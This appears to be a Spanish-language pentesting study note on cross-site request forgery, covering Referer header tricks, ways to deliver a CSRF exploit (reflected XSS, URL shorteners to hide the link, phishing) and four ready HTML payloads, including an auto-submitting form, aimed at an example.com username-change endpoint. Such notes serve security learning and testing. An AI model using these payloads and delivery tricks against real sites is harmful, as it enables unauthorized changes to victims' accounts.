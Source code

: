 >[!note]
>Muchos navegadores ahora eliminan la cadena de consulta del encabezado Referer de forma predeterminada como medida de seguridad. Para anular este comportamiento y asegurarse de que la URL completa se incluya en la solicitud, vuelva al servidor de explotación y agregue el siguiente header `Referrer-Policy: unsafe-url`.

![[Pasted image 20230208165534.png]]

## Cómo entregar un exploit CSRF

- Puede ser mediante un XSS reflejado para que se envie automaticamente el formulario.
- Se puede crear un cortador de URL para que la url original no genere desconfianza.
- Phishing

## Incovenientes

A veces para los formularios de cambio de contraseña, para realizar el ataque de CSRF se necesita conocer la contraseña actual del usuario porque algunas paginas lo piden para actualizar la password. 

## MAS EJEMPLOS

Petición GET que require interacción. Con un botón.

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

Petición GET que **no** require interacción. Ver una imagen.

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

Petición POST que require interacción. Con un botón de formulario.

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```

Petición POST que **no** require interacción. Autosubmit.

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```
